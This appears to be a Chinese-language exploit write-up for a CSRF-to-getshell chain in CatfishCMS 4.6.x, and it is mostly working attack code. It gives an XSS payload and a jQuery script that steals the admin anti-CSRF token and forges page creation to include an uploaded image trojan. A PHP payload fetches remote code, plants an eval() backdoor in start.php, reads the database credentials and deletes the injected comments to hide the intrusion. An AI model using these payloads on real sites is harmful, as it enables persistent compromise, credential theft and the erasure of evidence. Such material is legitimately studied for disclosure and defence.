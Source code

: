 # CatfishCMS 4.6.15 csrf getshell

> 原文：[https://www.zhihuifly.com/t/topic/2841](https://www.zhihuifly.com/t/topic/2841)

# CatfishCMS 4.6.15 csrf getshell

## 一、漏洞简介

在测试的过程中发现更新版本的时候作者添加一个参数 verification 可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification 就显的苍白无力了，因为我们可以先获取
verification 然后在执行csrf 从而来绕过。

## 二、漏洞影响

CatfishCMS 4.6

## 三、复现过程

### 漏洞分析

文件：CatfishCMS-4.6.12\catfish\library\think\Template.php

函数：fetch()

![image](img/b84802e18d7f15e582775f2e9a384442.png)

![image](img/1fa4c6d3f24d275c797e44322d3d43ba.png)

![image](img/e007760c54ce2419e36de3dcd1be769d.png)

![image](img/409109ec2a45082b4c4ce910383d9d9c.png)

![image](img/c718b5870292e5b98008221a4068fef9.png)

![image](img/8cfa924e0f98388cc366dc1cb3eb4648.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入
恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户->注册一个图片马到网站中->评论处插入xss代码->等待无辜管理员登录网站->获取 verification(绕过检测)->管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)->包含漏洞执行代码->包含漏洞添加getshell_code.php文件写入恶意代码->包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库->删除我们前面的评论->删除我们csrf创建的页面->邮件通知我们->getshell

CatfishCMS-4.6.12-xss.js

```
/*  
    需要插入的xss代码
    <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
*/ 

//不用动的

var articles = ‘index.php/admin/Index/articles.html’;//用来获取 verification 绕过检测

var newpage = ‘index.php/admin/Index/newpage.html’;//生成文章地址

var allpage = ‘index.php/admin/Index/allpage.html’;//获取文章链接

//需要改的

var url = ‘[http://0-sec.org](http://0-sec.org)’;//你要日的站的域名

var directory = ‘/cms/CatfishCMS-4.6.12/’; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)

var img_trojan_url = ‘…/…/…/’+‘data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg’;//图片马的地址 修改 + 号后面的即可

var getshell_code = ‘[http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt](http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt)’;//恶意代码远程包含的地址

$(‘body’).append(’<div id=“csrf_verification” style=“display:none;”></div>’);

$(‘body’).append(’<div id=“csrf_allpage” style=“display:none;”></div>’);

$.ajax({

url: url+directory+articles,

dataType: “json”,

success: function(verification_content){

$(’#csrf_verification’).append(verification_content);

var verification = $(’#verification’).html();//用来绕过验证的

// alert(verification);

```
 //csrf生成文章,引起文件包含漏洞
    $.ajax({
        type: "POST",
        url: url+directory+newpage,
        data: {
            'biaoti':'xss_csrf_getshll',
            'template':img_trojan_url,
            'verification':verification,
            'fabushijian':'2017-12-05 11:56:48'
        },
        success: function(){
            //csrf获取shell链接
            $.ajax({
                type: "POST",
                url: url+directory+allpage,
                success: function(allpage_content){
                    $('#csrf_allpage').append(allpage_content);
                    var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                    var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                    var shell_content = '';
                        shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                        shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                        shell_content+= 'fwrite($myfile, $txt);';
                        console.log(shell_content);

                    //执行shell 生成马子
                    $.ajax({
                        type: "POST",
                        url: url+shell_url,
                        dataType: "json",
                        data: {'ddd':shell_content},
                        success: function(data){
                            $.ajax({
                                type: "GET",
                                url: url+directory+'getshell_code.php',
                                dataType: "json", 
                                // data: {'zzz':1}
                            });
                        },
                        error: function(){
                            $.ajax({
                                type: "GET",
                                url: url+directory+'getshell_code.php',
                                dataType: "json", 
                                // data: {'zzz':1}
                            });
                        }   
                    });

                } 
            });

        } 
    });

} 
``` `});` 
```

![image](img/5de857f36da83407a0c183ba3e7a2175.png)

![image](img/f77a69124aa689b3952350e5c8c2a663.png)

写好以后模拟管理员，进入后台

![image](img/003aa2ed36a046ca3033539a1388bd51.png)

![image](img/66afafa829850c76837456dc18ebf186.png)

![image](img/047b3f00e7c55599e6c33cca45fd82de.png)

![image](img/4e4b09f17195196e4bc9e396546dd06c.png)

getshell_code

```
<?php  
    $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
    $start = fopen('catfish/start.php', 'w');
    fwrite($start, $start_content);
    if( @$_GET[zzz]){
        $config = require_once("application/database.php");
        //分别对应的是 地址，端口号，连接的数据库，编码
        $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
        $user = $config['username'];
        $psw = $config['password'];
        $pdo = new PDO($dsn,$user,$psw);
        $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
        $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
        $pdo->query($sql);
        $pdo->query($sql_1);
        unlink('getshell_code.php');
    }
?> 
```

![image](img/bb81b5962a86c712b71b5c315bf21a06.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

```
http://0-sec.org/index.php

POST `ddd = 你要执行的命令` 
```

![image](img/0a627569e8100e2a49f481cc620cb2a3.png)

![image](img/01c49cc887a32639f5b8e4faf94bf3c4.png)